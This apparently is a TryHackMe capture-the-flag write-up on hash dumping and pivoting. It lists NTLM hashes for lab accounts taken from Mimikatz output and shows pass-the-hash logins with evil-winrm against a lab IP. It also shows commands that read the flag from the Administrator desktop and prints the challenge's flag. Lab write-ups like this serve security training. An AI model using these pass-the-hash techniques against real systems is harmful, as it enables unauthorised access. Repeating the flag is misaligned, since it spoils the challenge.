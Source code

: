 ## Dump

> Hash dump and Pivoting

![Challenge](https://github.com/user-attachments/assets/dcef75ce-b30f-4311-8f6e-b292c1e4dcef)


---

### Recon
First I identify and compile all the hashes from MimiKatz cleanly

![dumpfile](https://github.com/user-attachments/assets/9469da2e-c8e5-445a-a07d-ac11a423c981)



| Usernames    | NTLM Hash |
| ------------- | ------------- |
| Administrator  | 2dfe3378335d43f9764e581b856a662a  |
| Cipher  | 6786c31df90f9568d4ca2480affeea9a  |
| NullPhantom  | 75b216fc8d12fbd0124d0c0865118e4d  |
| Specter  | 2c3e48bac1b65c52fc0fb0cd70eaf3aa  |
| ByteReaper  | 43034346035d7a24b1eaa1c82acaef3e  |
| GhostTrace  | 4820e4687d0ed2845328aa492dc0b33c  |
| DarkInjector  | 3a659a65d9c16d40a28684995782458f  |
| ShadowPacket  | 5fe2eb8c75c48179bce6025e70859e47  |

---

### 📡 Passing The Hash attempt #1 

I commonly use Evil-winRM especially since I know that these are windows creds. 

After trying a couple of users I then tried ByteReaper

```root@ip-10-10-179-82:~# evil-winrm -u ByteReaper -i 10.10.73.227 -H 43034346035d7a24b1eaa1c82acaef3e```

![winrm success](https://github.com/user-attachments/assets/684f1922-36c6-4465-9d58-2b19418bb383)

Alas I was in! I now knew that the exploit worked and I was on the right path. 
The next logical step was to Check if ByteReaper is already in the Administrators group:
With ```net localgroup administrators```

![admin maybe?](https://github.com/user-attachments/assets/d7478e33-9bc4-42a0-8b66-14aa398c0f7c)

He was not. Time to pivot!
 
---

### Pivot baby one more time

Establishing more attacks I then tried Administrator, Cipher, with no luck – Dark injector finally worked for me.

```evil-winrm -u Darkinjector -i 10.10.73.227 -H 3a659a65d9c16d40a28684995782458f```

From here I navigated to the admin’s desktop and got the flag:

```
cd C:\Users\Administrator\Desktop
ls
type flag.txt
```

![Dark Injector working](https://github.com/user-attachments/assets/8dec5dd8-0431-4bdd-bdb9-9305ee2a23c7)

THM{1nj3ctBr34k3r5}
